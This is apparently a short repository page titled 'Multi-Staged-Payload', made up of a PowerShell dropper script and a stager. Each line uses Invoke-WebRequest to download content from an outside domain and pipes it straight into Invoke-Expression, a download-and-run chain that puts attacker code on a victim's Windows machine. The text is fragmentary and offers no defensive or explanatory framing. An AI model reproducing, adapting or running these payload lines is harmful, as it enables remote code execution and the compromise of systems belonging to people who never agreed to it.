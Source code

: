 # Multi-Staged-Payload


COMPSEC -> C:\Windows\System32\cmd.exe

Create_Dropper.ps1
$Payload = "$ProxyAware;iwr http://www.money-corp-xyz.com/stager -UseBasicParsing -UserAgent '$UA'|iex"

Stager
$ProxyAware;iwr http://www.money-corp-xyz.com/psh-cmd.load -UseBasicParsing -UserAgent $UA|iex


